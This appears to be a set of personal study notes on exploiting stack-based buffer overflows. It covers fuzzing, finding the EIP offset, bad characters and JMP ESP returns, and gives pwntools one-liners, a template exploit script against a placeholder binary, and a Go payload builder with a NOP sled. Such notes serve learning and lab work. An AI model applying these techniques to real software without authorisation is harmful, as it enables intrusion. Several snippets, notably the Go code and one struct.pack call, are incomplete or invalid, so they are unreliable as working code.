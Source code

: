 # Stackbased Buffer Overflows

## Finding the vulnerability:
1. Source code review
	1. Find vulnerable functions
2. [Fuzzing](https://en.wikipedia.org/wiki/Fuzzing)
	1.  Fuzz any input fields
3. Reverse Engineering
	1. Find vulnerable functions


## Fuzzing HTTP protocol
[Microsoft TCPView](https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview) if debugger network listening does not work.

1. Use [[Wireshark]] to monitor traffic sent to application and follow TCP stream to show reply. 
2. [[Useful_Python]] PoC 
3. Run debugger Administrative priveleges attached to running of the vulnerable application
	1. Or for Windows [tcpview if immunity debugger listen column unavaliable](https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview)
	2. Attach process with immunity debugger



## Buffer Overflow Exploitation
Be aware alot of restarting required.
1. Enumerate till location EIP
	1. Binary Tree analysis - use pwntools `cyclic` or `msf-pattern_create -l $int`
	2. Update PoC
1. Check offset with `msfpattern_offset -l $int -q $offsetpattern` or pwntools `offset`. From EIP the offset is located at relative memory address higher than EIP - closer to 0x0!.
	1. Add EIP variable to find exact EIP address.
1. Locating space for shellcode
1. Check for bad characters
1. Redirect the execution to flow:
	
Due address changing either due crashing-and-restarting application or ASLR ... we can just hardcode a static return address in general in modern binary exploitation.

6. Find a return address
7. Leverage a static address that contains a `JMP ESP`
	1. Must be static - no libraries compiled with ASLR support
	2. Not an address within the region to be occupied by the shellcode

## pwntools
Enumeration
```bash
r < <(cyclic $INT) # cyclic input of $INT amount
cyclic -l EIP_Address # find out the amount of bytes of input need to expploit the binary
disassemble shell # find out where the shell function is in memory to set it to IP
# EITHER
# IF MANUAL WAY REMEMBER CORRECT ADDRESS LENGTH AND ENDIANNESS
# L->R = littleEndian; R->L = bigEndian
python -c 'print "A"*$INT + "$ADDR"' | /vuln/bin
python -c 'import struct;print "A"*44 + struct.pack("< ", $ADDR)' | /vuln/bin
```

Scripting the buffer overflow
```
from pwn import *
proc = process('/vuln/bin')
elf = ELF('/vuln/bin')
shell_func = elf.symbols.shell # CHANGE WHATEVER FORMAT REQUIRED
payload = fit({$INT: shell_func })
proc.sendline(payload)
proc.interactive()
```

## APPENDIX:

\xCC as a graceful break for binex than crashing.

// ENDIANNESS tester
```c
#include <stdio.h>
union s{
	int n;
	char b;
}x;
void main(){
	x.n = 0x4142;
	if(x.b == 0x42){
		printf("Little Endian\n");
	}
	else{
		printf("Big Endian\n");
	}
}
```


```go
bof := strings.Builder{}
shell := ` `

offset := 608
rip := '0x' //store it to not overflow your own memory
formatRIP := //nice formatting hex function
nopSled := `\x90` 
safeJunk := `\xCC`
* someamount
payloadSize := offset + 8
shellSize := len(shell)
nopSize := len(nopSled)
padding := 'A' * (payloadSize - shellSize - nopSize)

bof.WriteString(nopSled, shell, padding, formatRIP)

payload := bof.String()

fmt.Printf("%s", payload)
```